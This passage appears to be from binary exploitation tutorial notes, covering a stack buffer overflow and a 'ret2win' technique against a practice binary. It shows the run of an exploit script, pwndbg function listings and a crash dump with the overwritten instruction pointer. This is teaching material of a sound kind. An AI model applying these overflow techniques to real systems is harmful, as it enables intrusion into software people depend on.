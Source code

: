 ```
$ python3 myexploit.py
[+] Starting local process './overwrite': pid 21719
[+] Receiving all data: Done (21B)
[*] Process './overwrite' stopped with exit code 0 (pid 21719)
 good job!!
deadbeef
```

# Ret2Win

Sometimes we need to jump into a function which is never called. So we will overwrite the EIP (instruction pointer) with the desired function memory address.

First of all we need to determine which input is vulnerable to BOF, then we will find hidden function and we will collect its memory address `0x08049182`.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  puts@plt
0x08049050  __libc_start_main@plt
0x08049060  __isoc99_scanf@plt
0x08049070  _start
0x080490b0  _dl_relocate_static_pie
0x080490c0  __x86.get_pc_thunk.bx
0x080490d0  deregister_tm_clones
0x08049110  register_tm_clones
0x08049150  __do_global_dtors_aux
0x08049180  frame_dummy
0x08049182  hacked	<--------
0x080491ad  register_name
0x08049203  main
0x0804921f  __x86.get_pc_thunk.ax
0x08049230  __libc_csu_init
0x08049290  __libc_csu_fini
0x08049291  __x86.get_pc_thunk.bp
0x08049298  _fini
```

After crashing the program, we will see that the EIP, register which determines the return address of the function called, has been overwritten.

```
pwndbg> run
Starting program: /home/mvaliente/KaliShared/learn/pwn/CTF/pwn/binary_exploitation_101/03-return_to_win/ret2win 
Name:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hi there, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────
*EAX  0x41
*EBX  0x61616161 ('aaaa')
 ECX  0x0
*EDX  0xf7fc2540 ◂— 0xf7fc2540
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049230 (__libc_csu_init) ◂— push ebp
```